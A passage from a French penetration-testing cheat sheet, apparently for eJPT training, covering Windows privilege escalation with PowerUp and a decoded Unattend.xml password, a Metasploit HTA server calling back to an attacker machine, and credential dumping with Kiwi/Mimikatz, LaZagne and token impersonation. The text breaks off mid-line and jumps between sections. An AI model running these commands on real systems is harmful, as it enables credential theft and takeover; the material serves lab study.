 #### 🎯 Côté Windows (Machine cible)
```powershell
# 1. Énumération initiale avec PowerUp
cd .\Desktop\PowerSploit\Privesc\
ls
powershell -ep bypass
. .\PowerUp.ps1
Invoke-PrivescAudit

# 2. Lecture du fichier Unattend.xml trouvé
cat C:\Windows\Panther\Unattend.xml

# 3. Décodage du password base64 (ex: "QWRtaW5AMTIz")
$password='QWRtaW5AMTIz'
$password=[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($password))
echo $password
# Résultat: Admin@123

# 4. Test credentials avec runas
runas.exe /user:administrator cmd
Admin@123
whoami  # Vérification: Administrator
```

#### 🖥️ Côté Kali (Machine attaquante)
```bash
# 5. Configuration du serveur HTA
msfconsole -q
use exploit/windows/misc/hta_server
set LHOST [IP_KALI]        # Ex: 10.10.31.2
set LPORT 4444             # Port d'écoute
exploit                    # Démarre le serveur HTA
# URL générée: http

### 4. Dumping avancé - Choix de la méthode
```bash
# Option A: Kiwi (recommandé pour eJPT)
migrate -N lsass.exe
load kiwi
creds_all
lsa_dump_sam
lsa_dump_secrets

# Option B: LaZagne via Meterpreter
upload /path/to/laZagne.exe C:\\temp\\laZagne.exe
execute -f "C:\\temp\\laZagne.exe" -a "all"

# Option C: Incognito pour impersonation
load incognito
list_tokens -u
impersonate_token DOMAIN\\Administrator
```
